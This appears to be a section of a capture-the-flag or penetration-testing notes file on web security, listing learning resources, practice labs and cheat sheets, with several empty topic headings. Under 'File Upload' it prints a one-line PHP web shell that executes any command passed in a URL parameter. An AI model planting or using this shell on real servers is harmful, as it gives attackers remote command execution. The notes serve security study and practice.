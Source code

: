 ## ► web
★ Best resources for web:
- https://portswigger.net/
- https://cheatsheetseries.owasp.org/
### Initial checks
- robots.txt
- git dumpster
- directory bruteforce

### Time wasters
- https://overthewire.org/wargames/natas/
- http://www.itsecgames.com/
- https://ctf.hacker101.com/
- https://www.hackthissite.org/
- http://www.dvwa.co.uk/

### SQL Injection
- https://github.com/Audi-1/sqli-labs/
- https://portswigger.net/web-security/sql-injection/cheat-sheet
### XSS
- http://xss-game.appspot.com/
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
### XXE
### Path Traversal
### PHP deserealization
### File Upload


#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```

### Local File Inclusion
